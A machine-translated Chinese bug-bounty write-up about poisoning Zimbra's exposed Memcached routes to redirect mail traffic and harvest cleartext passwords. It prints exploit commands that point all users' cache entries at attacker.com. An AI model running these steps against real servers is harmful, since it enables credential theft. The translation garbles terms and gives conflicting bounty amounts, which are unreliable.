










# 关于 25000 英镑赏金的故事——津布拉上的 SSRF 导致以明文形式转储所有凭证

> 原文：<https://infosecwriteups.com/story-of-a-2-5k-bounty-ssrf-on-zimbra-led-to-dump-all-credentials-in-clear-text-6fe826005ccc?source=collection_archive---------0----------------------->

这篇文章是关于我和我的朋友如何从咖啡馆的 bug 奖励计划中获得大约 2500 美元。

# 初始化

在侦察阶段，我列举了 mailx.hezardastan.net 主机，咖啡馆的网络邮件访问。我进行了端口扫描:


有许多开放的港口。其中 Memcached 端口 11211 异常。经过一些基本测试后，它显示:

1.  与端口 11211 通信不需要进行身份验证
2.  电子邮件地址由 Zimbra 保存在缓存中
3.  有添加/修改/删除缓存数据的能力
4.  有能力进行 DDOS 攻击

然而，我在寻找更危险的东西，文件泄露，远程命令执行等。

# **攻击津布拉**

考虑 Zimbra 源代码:

[](https://github.com/fciubotaru/z-pec/blob/master/ZimbraServer/src/java/com/zimbra/cs/util/ProxyPurgeUtil.java) [## fciubotaru/z-pec

### zimbra fork 增加了对 RFC6109 的支持。在 GitHub 上创建一个帐户，为 fciubotaru/z-pec 的开发做出贡献。

github.com](https://github.com/fciubotaru/z-pec/blob/master/ZimbraServer/src/java/com/zimbra/cs/util/ProxyPurgeUtil.java) 

它将通信协议模式、用户名和后端服务器 IP 地址保存在 Memcached 中。在此之前，我通过 Metasploit， **memcached_extractor** 模块进行了数据提取(可以手动完成):



电子邮件地址可能会被用来进行网络钓鱼或暴力攻击。然而，我仍然不满意这个漏洞。让我们来看看 Zimbra 的工作流程:

1.  用户通过他们的凭证进行身份验证
2.  服务器将用户名和后端服务器 URL 保存在缓存中
3.  用户使用 Zimbra
4.  服务器从缓存中检索后端 URL
5.  服务器与连同用户数据一起检索的 URL(



以下是 Zimbra 如何在缓存中保存数据的示例:

```
route:proto=imapssl;user=[REDUCTED]@cafebazaar.ir 127.0.0.1:7993
route:proto=pop3ssl;user=[REDUCTED]@cafebazaar.cloud 127.0.0.1:7995
route:proto=httpssl;user=[REDUCTED]@cafebazaar.ir 127.0.0.1:8443
```

格式是:

```
route:proto=[UserProtocol];user=EmailAddressOrID
```

支持的协议:

```
IMAPSSL 127.0.0.1:7993
POP3SSL 127.0.0.1:7995
HTTPSSL(HTTPS) 127.0.0.1:8443
```

考虑到后端服务器可以通过互联网访问:

```
IMAPSSL mailx.hezardastan.net:7993
POP3SSL mailx.hezardastan.net:7995
HTTPSSL(HTTPS) mailx.hezardastan.net:8443
```

我设计了一个攻击场景，其余部分会解释。

# 发现 SSRF 漏洞

场景是针对 SSRF 测试服务器。攻击场景是将后端服务器 IP 地址更改为任意地址(攻击者的服务器),以便重定向服务器流量。

测试 SSRF 的步骤:

1.  通过自签名 SSL 证书在端口上创建 SSL 侦听器
2.  更改用户缓存以重定向流量

通过改变缓存，来自 maix.hezardastan.net 的连接被接收。



SSRF 实现了:)

# 中间的人

主要目标是**在邮件服务器**正常工作的时候**窃取用户信息**(凭证、电子邮件等)。为了不影响功能，我不得不重定向回流量。考虑到可以从互联网访问的后端开放端口，我可以做这个场景。



MITM 的情况:

1.  用户登录到他们的帐户，后端服务器 IP 保存在缓存中
2.  攻击者将后端信息更改为他们的 IP 地址
3.  Zimbra 的流量被重定向到攻击者的服务器
4.  攻击者卸载 SSL 并提取信息(凭证等)
5.  攻击者对打开的后端端口进行 SSL 连接
6.  在对用户进行攻击后，攻击者会将缓存恢复到默认值。

我写了一个[漏洞利用代码](https://gist.github.com/Voorivex/fa0b2b27cc8caf412b842d1ebe3b8914)有几个部分:



**1。提取已经登录的电子邮件地址**

```
python HezarSploit.py -m dumpusers
```


**2。假冒 IMAPSSL 服务器与客户端通信**

```
python HezarSploit.py -m mitm --port 4444
```

将凭证转储到`credentials.txt`中。

**3。修改所有用户(或已经登录的用户)的缓存**

```
python HezarSploit.py -m poisoning --user all --ip attacker.com --port 4444
```

4.将缓存更改为默认值

```
python HezarSploit.py -m reset
```

# 把这一切放在一起，攻击

在服务器中:

```
python HezarSploit.py -m mitm --port 4444
```



在控制台中:

```
python HezarSploit.py -m poisoning --user all --ip attacker.com --port 4444
```



结果是:



我得到了几乎所有用户的明文密码。样品:



# 结束

我报告了这个漏洞，响应速度很快，不到一个小时就修补了漏洞。几天后，他们给了我大约 25000 美元的奖金。我希望这篇文章对你有用。